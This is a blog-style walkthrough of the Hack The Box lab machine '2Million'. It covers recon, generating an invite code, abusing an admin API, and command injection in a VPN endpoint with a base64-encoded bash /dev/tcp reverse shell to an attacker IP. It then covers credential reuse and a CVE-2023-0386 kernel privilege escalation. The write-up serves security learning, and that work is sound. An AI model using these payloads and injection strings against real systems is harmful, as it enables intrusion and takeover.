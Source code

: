 ```yaml
---
layout: post
title: "Hack The Box: 2Million - A Narrative Walkthrough"
date: 2025-07-03
tags:
  - htb
  - ctf
  - walkthrough
  - cybersecurity
categories: blog
---
```

# Hack The Box: 2Million - A Narrative Walkthrough

Welcome to my walkthrough of the Hack The Box (HTB) machine: **2Million**. What began as a series of recon notes evolved into a story of curiosity, API exploration, privilege escalation, and ultimately, root access. Let's dive in.

---

## Reconnaissance & First Impressions

I began my journey with an Nmap scan:

```bash
nmap -A 10.10.11.221 -oN scan.initial
```

The scan revealed two open ports:

- **22/tcp**: OpenSSH 8.9p1
- **80/tcp**: HTTP (nginx)
  
Navigating to the IP in a browser resulted in a redirect to `http://2million.htb/`, which didn't resolve—until I added the following line to my `/etc/hosts` file:

```bash
10.10.11.221 2million.htb
```

Once added, the page loaded immediately. It looked like a promotional site for HTB. Scrolling down, I saw a call to action inviting me to join. I clicked.

![How do I join?](/assets/images/Pasted%20image%2020250701185331.png)
![Invite Code](/assets/images/Pasted%20image%2020250701185430.png)



I poked around and soon discovered some JavaScript references in the source:

```javascript
eval(function(p,a,c,k,e,d)...)
```

Yep: classic obfuscated JavaScript. I pasted the blob into [this online JS unpacker](https://matthewfl.com/unPacker.html) and got a cleaner view of the logic. Two functions stood out:

- `verifyInviteCode(code)`
- `makeInviteCode()`

We're here to generate, not verify—so I hit the relevant endpoint:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

Response:

```json
{"data":"Va beqre gb trarengr...","enctype":"ROT13"}
```

ROT13! A quick run through CyberChef decoded it to:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

So I did.

### Getting the Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

Output:

```json
{"code":"MTc5RVotQzA0UkctOTI5V0YtOUhPNzA="}
```

That smelled like Base64, and decoding it gave me:

```
179EZ-C04RG-929WF-9HO70
```

Bingo—valid invite code.

## Exploring the API

After signing up with the invite code, I started poking the API using Burp Suite and curl. I noticed that while most routes redirected or denied access, `/api` and `/api/v1` returned `401 Unauthorized`.

So I grabbed my `PHPSESSID` from the browser session and tried again:

```bash
curl -i http://2million.htb/api \
  -H "Cookie: PHPSESSID=<session>"
```

Success! I was in.

Pretty soon I had a full list of exposed endpoints. Some were for regular users, but a few were under `/admin/`, including:

- `/api/v1/admin/auth`
- `/api/v1/admin/settings/update`
- `/api/v1/admin/vpn/generate`

Checking my privileges:

```bash
curl http://2million.htb/api/v1/user/auth -H "Cookie: PHPSESSID=<session>"
# {"loggedin":true, "username":"USER", "is_admin":0}
```

Not admin. Yet.

## Upgrading to Admin

I began experimenting with `PUT` requests to `/admin/settings/update`. After a few failed attempts, I hit gold:

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"is_admin":1, "email":"REDACTED"}'
```

Now I was admin. Confirmed via:

```bash
curl http://2million.htb/api/v1/admin/auth -H "Cookie: PHPSESSID=<session>"
# {"message":true}
```

## Remote Code Execution (RCE)

With admin status, I went after the `/admin/vpn/generate` endpoint, trying to inject commands. After some trial and error, this payload executed:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"USER; whoami;"}'
```

Response:

```
www-data
```

RCE achieved.

I wanted a full reverse shell. To avoid shell parsing issues, I base64-encoded the payload:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.223/1234 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjMvMTIzNCAwPiYxCg==
```

Then sent it:

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"USER; echo <base64> | base64 -d | bash;"}'
```

Meanwhile, my listener was waiting:

```bash
nc -lvp 1234
```

Shell obtained.

## User Flag

With access as `www-data`, I dug through the site files and found the `.env` file, which contained database credentials:

```
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I noticed a local user `admin`, and tried the creds over SSH:

```bash
ssh admin@2million.htb
```

They worked!

```bash
cat user.txt
# deee6b52e5cefa369cd0f82238228e5b
```

## Privilege Escalation

Reading `/var/mail/admin`, I saw this note:

```
... upgrade the OS ... OverlayFS / FUSE looks nasty ...
```

Aha—CVE-2023-0386.

### Checking for Vulnerability

```bash
uname -r
# 5.15.70
lsmod | grep overlay
# overlay 151552  0
grep CONFIG_USER_NS /boot/config-$(uname -r)
# CONFIG_USER_NS=y
```

Vulnerable.

### Exploiting CVE-2023-0386

I grabbed the [exploit from GitHub](https://github.com/xkaneiki/CVE-2023-0386), zipped it, and transferred it via SCP:

```bash
zip -r cve.zip CVE-2023-0386
scp cve.zip admin@2million.htb:/tmp/t2
```

### Exploit Instructions

```bash
make all
./fuse ./ovlcap/lower ./gc
./exp
```

![Rooted](/assets/images/Pasted%20image%2020250702183058.png)
Root shell popped.

## Final Thoughts

This box was a great mix of web, API, and kernel exploitation. I appreciated how the narrative clues guided the flow from recon to root, while still requiring trial-and-error and careful reading. Always satisfying when both the logic _and_ the exploit align cleanly.

Thanks for reading!